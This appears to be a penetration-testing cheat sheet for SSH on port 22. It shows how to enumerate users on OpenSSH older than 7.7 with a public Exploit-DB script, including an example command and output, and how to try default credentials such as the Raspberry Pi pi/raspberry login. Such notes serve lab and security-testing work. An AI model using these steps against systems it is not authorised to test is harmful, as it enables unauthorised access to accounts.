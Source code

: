# 22, SSH

## Username enumeration
If the SSH version is OpenSSH < 7.7 you can enumerate users on the machine. 

### Exploit
https://www.exploit-db.com/exploits/45233

### Example command
```
$ python 45233.py --port [port] --username [username] [IP]
```

### Example output
```
$ python 45233.py --port 22 --username root 10.10.10.10
root is a valid user!
$ python 45233.py --port 22 --username james 10.10.10.10
james is not a valid user!
```

## Default credentials
There could be accounts on the machine that have default credentials.

### Example command
```
$ ssh pi@rasp-pi.local
(password: raspberry)
```
Example default credentials can be found here:
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt

